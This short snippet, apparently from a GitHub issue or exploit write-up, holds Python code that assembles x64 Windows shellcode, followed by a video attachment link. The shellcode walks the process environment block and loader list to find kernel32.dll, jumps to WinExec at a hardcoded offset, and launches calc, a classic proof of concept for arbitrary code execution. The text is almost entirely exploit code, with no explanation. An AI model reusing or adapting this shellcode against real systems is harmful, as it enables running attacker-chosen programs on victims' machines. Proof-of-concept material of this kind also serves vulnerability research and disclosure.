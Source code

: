 ```python=
calc = u64(b'calc\x00\x00\x00\x00')
winExec = 0x68600
shellcode = 'xor rax, rax\n'
shellcode += 'mov al, 0x60\n'
shellcode += 'mov rbx, rax\n'
shellcode += 'mov rax, gs:[rbx]\n'# load _peb
shellcode += 'mov rbx, [rax + 0x18]\n'# load ldr
shellcode += 'mov rcx, [rbx + 0x10]\n' # load entry
shellcode += 'mov rdx, [rcx] \n'# load flink
shellcode += 'mov rcx, [rdx] \n'#; load flink
shellcode += 'mov rbx, [rcx + 0x30]\n' # load kernel32.dll base
shellcode += 'mov r12, rbx\n' #load base to r12
shellcode += 'mov rax, r12\n'
shellcode += f'add rax, {winExec}\n'
shellcode += 'xor rcx, rcx\n'
shellcode += f'mov ecx, {calc}\n'
shellcode += 'push rcx\n'
shellcode += 'mov rcx, rsp\n' #first argument
shellcode += 'xor rdx, rdx\n'
shellcode += 'inc rdx\n' #SW_NORMAL
shellcode += 'jmp rax\n'
```

https://github.com/user-attachments/assets/6bea276b-950b-4e92-adfd-528703f14cae


